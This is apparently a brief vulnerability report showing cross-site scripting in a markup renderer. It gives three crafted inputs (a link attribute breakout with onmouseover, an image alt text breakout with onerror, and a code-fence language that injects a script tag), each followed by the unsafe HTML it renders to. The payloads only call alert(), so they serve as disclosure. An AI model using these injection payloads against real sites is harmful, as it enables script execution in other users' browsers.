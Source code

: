 link:bla"onmouseover="alert(1)[KLIK HIER]

Results in: <a onmouseover="alert(1)" href="bla">KLIK HIER</a>

image:https://gitlab-a.ing.net/fake.png[Alt text" onerror="alert(7)]

Results in: <img onerror="alert(7)" alt="Alt text" src="https://gitlab-a.ing.net/fake.png">

```blaat"><script>alert(3)</script>

Results in: <pre lang="blaat"><script>alert(3)</script>"&gt;<code></code></pre>

